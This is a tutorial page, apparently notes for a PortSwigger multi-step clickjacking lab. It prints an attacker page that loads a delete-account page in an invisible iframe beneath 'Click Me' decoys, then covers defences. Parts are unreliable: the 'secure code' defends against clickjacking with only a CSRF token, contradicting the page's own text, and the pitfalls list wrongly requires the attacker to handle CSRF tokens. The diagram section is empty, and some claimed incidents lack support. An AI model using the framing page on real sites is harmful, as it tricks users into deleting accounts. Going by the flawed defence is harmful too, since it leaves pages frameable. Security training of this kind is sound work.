

## Introduction to Clickjacking

Clickjacking, also known as UI Redress Attack, is a malicious technique used to trick users into clicking on something different than what they perceive they are clicking on. This can lead to unauthorized actions being performed on behalf of the user, such as deleting accounts, changing settings, or even transferring funds. The attacker achieves this by layering transparent, clickable elements over the legitimate ones, making it difficult for the user to know what they are really interacting with.

### Why Clickjacking Matters

Clickjacking attacks exploit the trust users place in websites they visit. By manipulating the user interface, attackers can bypass security mechanisms like CSRF tokens and confirmation dialogues, leading to significant security breaches. Understanding and defending against clickjacking is crucial for maintaining the integrity and security of web applications.

### How Clickjacking Works Under the Hood

At its core, clickjacking relies on the use of HTML frames (`<iframe>`) and CSS properties to overlay hidden elements on top of visible ones. When a user clicks on what they believe to be a benign link or button, they are actually clicking on a hidden element controlled by the attacker. This can result in unintended actions being performed on the user's behalf.

#### Example Scenario

Consider a scenario where a user visits a malicious website that contains an invisible `<iframe>` pointing to a legitimate banking site. The attacker overlays a seemingly harmless button on top of the `<iframe>`. When the user clicks the button, they inadvertently trigger a transaction on the banking site.

### Real-World Examples

One notable real-world example of clickjacking occurred in 2010 when Facebook users were tricked into liking a malicious page. The attackers used a combination of an invisible `<iframe>` and a misleading button to make users unknowingly like the page, which then spread malware to other users.

Another example is the case of a clickjacking attack on Apple's iCloud service in 2016. Attackers used a similar technique to trick users into granting access to their iCloud accounts, allowing them to steal sensitive information.

### Lab Setup and Environment

For this lab, we will be using the Web Security Academy provided by PortSwigger. This platform offers a variety of labs designed to help users understand and defend against various web security vulnerabilities, including clickjacking.

To access the lab:

1. Visit [PortSwigger Web Security Academy](https://portswigger.net/web-security).
2. Sign up for an account if you haven't already.
3. Navigate to the "Academy" section.
4. Search for "clickjacking labs".
5. Select Lab Number 5 titled "Multi-Step Clickjacking".

### Lab Objective

The objective of this lab is to perform a multi-step clickjacking attack to trick the user into deleting their account. The account has protection mechanisms such as a CSRF token and a confirmation dialogue, but these can be bypassed through careful manipulation of the user interface.

### Lab Credentials

To log into the account, use the following credentials:
- Username: `regular_user`
- Password: `Peter`

### Logging into the Account

Once you have accessed the lab, log into the account using the provided credentials. This will allow you to interact with the application and observe the behavior of the account deletion process.

```http
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

username=regular_user&password=Peter
```

### Response

```http
HTTP/1.1 200 OK
Date: Tue, 14 Mar 2023 12:00:00 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 1234

<!DOCTYPE html>
<html>
<head>
    <title>Login Successful</title>
</head>
<body>
    <h1>Welcome, regular_user!</h1>
    <p>You have successfully logged in.</p>
</body>
</html>
```

### Analyzing the Account Deletion Process

Upon logging in, navigate to the account settings page where the delete account option is located. Observe the steps involved in deleting the account, including the presence of a CSRF token and a confirmation dialogue.

#### Step 1: Delete Account Button

The delete account button is typically protected by a CSRF token to prevent unauthorized deletions. However, this can be bypassed through clickjacking.

#### Step 2: Confirmation Dialogue

After clicking the delete account button, a confirmation dialogue appears to ensure the user intends to proceed with the deletion. This dialogue is another layer of protection that can be bypassed.

### Constructing the Clickjacking Attack

To perform the multi-step clickjacking attack, we need to create a malicious webpage that overlays the legitimate account deletion process. This involves using an `<iframe>` to embed the target website and overlaying hidden elements on top of the visible ones.

#### Step 1: Create the Malicious Webpage

Create a new HTML file for the malicious webpage. This file will contain the necessary `<iframe>` and overlay elements.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Multistep Clickjacking Attack</title>
    <style>
        iframe {
            position: absolute;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            opacity: 0;
        }
        .overlay {
            position: absolute;
            top: 50%;
            left: 50%;
            transform: translate(-50%, -50%);
            cursor: pointer;
        }
    </style>
</head>
<body>
    <iframe src="http://vulnerable-website.com/delete-account"></iframe>
    <div class="overlay">Click Me First</div>
</body>
</html>
```

#### Step 2: Overlay Elements

Add additional overlay elements to simulate the multi-step process. These elements will be positioned over the actual buttons on the target website.

```html
<div class="overlay" style="top: 60%; left: 50%;">Click Me Next</div>
```

### Full Attack Sequence

The full attack sequence involves the following steps:

1. The user visits the malicious webpage.
2. The `<iframe>` loads the target website's account deletion page.
3. The user clicks on the "Click Me First" overlay, which triggers the delete account button.
4. The confirmation dialogue appears, and the user clicks on the "Click Me Next" overlay, which confirms the deletion.

### Mermaid Diagram

A mermaid diagram can help visualize the attack sequence:



### Common Pitfalls and Detection

When performing clickjacking attacks, several pitfalls can occur:

1. **Incorrect Overlay Positioning**: If the overlay elements are not correctly positioned, the user may not click on the intended elements.
2. **CSRF Token Handling**: If the target website uses a CSRF token, the attacker must ensure that the token is included in the request.
3. **Confirmation Dialogues**: If the target website includes a confirmation dialogue, the attacker must ensure that the user clicks through this step.

### How to Prevent / Defend Against Clickjacking

Defending against clickjacking involves implementing several security measures:

#### 1. X-Frame-Options Header

The `X-Frame-Options` header can be set to `DENY` or `SAMEORIGIN` to prevent the page from being loaded in an `<iframe>`.

```http
HTTP/1.1 200 OK
Date: Tue, 14 Mar 2023 12:00:00 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 1234
X-Frame-Options: SAMEORIGIN

<!DOCTYPE html>
<html>
<head>
    <title>Delete Account</title>
</head>
<body>
    <h1>Delete Account</h1>
    <form action="/delete-account" method="POST">
        <input type="hidden" name="csrf_token" value="abc123">
        <button type="submit">Delete Account</button>
    </form>
</body>
</html>
```

#### 2. Content Security Policy (CSP)

The `Content-Security-Policy` header can be used to restrict the sources of content that can be loaded in the page.

```http
HTTP/1.1 200 OK
Date: Tue, 14 Mar 2023 12:00:00 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 1234
Content-Security-Policy: frame-ancestors 'self'

<!DOCTYPE html>
<html>
<head>
    <title>Delete Account</title>
</head>
<body>
    <h1>Delete Account</h1>
    <form action="/delete-account" method="POST">
        <input type="hidden" name="csrf_token" value="abc123">
        <button type="submit">Delete Account</button>
    </form>
</body>
</html>
```

#### 3. Secure Coding Practices

Ensure that all forms and buttons are properly protected by CSRF tokens and confirmation dialogues. Additionally, validate all inputs and ensure that sensitive actions require explicit confirmation from the user.

#### Vulnerable vs. Secure Code

**Vulnerable Code**

```html
<!DOCTYPE html>
<html>
<head>
    <title>Delete Account</title>
</head>
<body>
    <h1>Delete Account</h1>
    <form action="/delete-account" method="POST">
        <button type="submit">Delete Account</button>
    </form>
</body>
</html>
```

**Secure Code**

```html
<!DOCTYPE html>
<html>
<head>
    <title>Delete Account</title>
</head>
<body>
    <h1>Delete Account</h1>
    <form action="/delete-account" method="POST">
        <input type="hidden" name="csrf_token" value="abc123">
        <button type="submit">Delete Account</button>
    </form>
</body>
</html>
```

### Detection and Prevention Tools

Several tools can help detect and prevent clickjacking attacks:

1. **Burp Suite**: A comprehensive toolkit for web application security testing that includes features for detecting and preventing clickjacking.
2. **OWASP ZAP**: An open-source web application security scanner that can detect and prevent clickjacking vulnerabilities.
3. **Security Headers**: A tool that checks the security headers of a website, including `X-Frame-Options` and `Content-Security-Policy`.

### Hands-On Practice Labs

To practice and reinforce your understanding of clickjacking, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs, including those focused on clickjacking.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security techniques.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that demonstrates common web application vulnerabilities.

By thoroughly understanding and practicing the concepts covered in this chapter, you will be well-equipped to defend against clickjacking attacks and ensure the security of web applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/05-Clickjacking/06-Lab 5 Multistep clickjacking/00-Overview|Overview]] | [[02-Detailed Explanation of Clickjacking|Detailed Explanation of Clickjacking]]
